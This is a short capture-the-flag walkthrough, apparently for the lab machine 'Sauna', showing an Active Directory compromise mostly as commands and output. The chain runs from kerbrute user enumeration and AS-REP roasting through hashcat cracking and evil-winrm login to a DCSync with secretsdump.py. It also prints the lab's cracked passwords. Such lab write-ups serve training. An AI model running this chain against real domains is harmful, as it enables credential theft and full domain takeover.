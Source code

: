 # Sauna  

## Nmap  

All ports.  

```
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-04-20 15:28:38Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49697/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49717/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```  

## HTTP 80  

Users found on website.  

```
Johnson
Watson
Fergus Smith
Shaun Coins
Hugo Bear
Bowie Taylor
Sophie Driver
Steven Kerb
Hugo Smith
```  

Recent tags, not sure if these are anything.  

```
dfre
Gahydwq
qeers
hysert
hjwsa
sumgr
nhyewq
njyra
laiuwa
loghw
mhyu
mojjs
suisq
bhyfgh
```  

## Kerbrute  

Finding users with kerbrute.  

`kerbrute userenum --dc 10.129.95.180 -d EGOTISTICAL-BANK.LOCAL sauna-users.txt`  

Results.  

```
2023/04/20 12:19:51 >  [+] VALID USERNAME:	 FSmith@EGOTISTICAL-BANK.LOCAL
2023/04/20 12:19:51 >  [+] VALID USERNAME:	 HSmith@EGOTISTICAL-BANK.LOCAL
```  

## TGT  

Getting a TGT for users.  

`GetNPUsers.py EGOTISTICAL-BANK.LOCAL/FSmith`  

## Password hash cracking  

Find module for hashcat.  

`hashcat --example-hashes | grep -B 2 krb5asrep`  

Cracking.  

`hashcat -a 0 -m 18200 tgt.hash.fsmith /usr/share/wordlists/rockyou.txt`  

Creds for FSmith.  

`Thestrokes23`  


## Shell  

Login.  

`evil-winrm -i 10.129.95.180 -u FSmith -p "Thestrokes23"`  

## Privesc  

Finding automatic logon creds with winPEASx64.exe  

```
DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
DefaultPassword               :  Moneymakestheworldgoround!
```  

## Domain Admin  

Using bloodhound, I found svc_loanmanager has DCsync rights. Using secretsdump.py.  

`secretsdump.py  egotistical-bank.local/svc_loanmgr@10.129.95.180`  

Using the administrator hash and evil-winrm to root the box.
